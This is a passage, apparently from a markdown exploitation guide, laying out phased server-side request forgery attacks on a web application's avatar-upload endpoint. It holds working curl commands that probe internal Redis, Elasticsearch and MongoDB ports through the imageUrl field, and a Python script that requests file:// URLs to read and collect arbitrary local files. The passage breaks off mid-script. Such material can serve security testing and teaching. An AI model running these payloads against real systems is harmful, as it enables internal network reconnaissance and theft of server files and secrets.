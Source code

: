    ```python
   
   # Execute scan
   token = "your_jwt_token_here"
   open_ports = scan_internal_ports(token)
   print(f"Open ports found: {open_ports}")
   ```

2. **Service Fingerprinting**
   ```bash
   # Redis service detection
   curl -X POST http://localhost:3000/api/users/avatar \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"imageUrl":"http://localhost:6379","fetchFromUrl":true}'
   
   # Elasticsearch detection
   curl -X POST http://localhost:3000/api/users/avatar \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"imageUrl":"http://localhost:9200","fetchFromUrl":true}'
   
   # MongoDB detection
   curl -X POST http://localhost:3000/api/users/avatar \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"imageUrl":"http://localhost:27017","fetchFromUrl":true}'
   ```

### Phase 4: File System Exploitation

1. **Systematic File Enumeration**
   ```python
   import requests
   import json
   
   def read_files(token, file_paths):
       headers = {
           'Authorization': f'Bearer {token}',
           'Content-Type': 'application/json'
       }
       
       results = {}
       
       for file_path in file_paths:
           payload = {
               'imageUrl': f'file://{file_path}',
               'fetchFromUrl': True
           }
           
           try:
               response = requests.post(
                   'http://localhost:3000/api/users/avatar',
                   headers=headers,
                   json=payload
               )
               
               if response.status_code == 200:
                   data = response.json()
                   if 'content' in data:
                       results[file_path] = data['content']
                       print(f"Successfully read: {file_path}")
                   else:
                       print(f"No content returned for: {file_path}")
               else:
   ```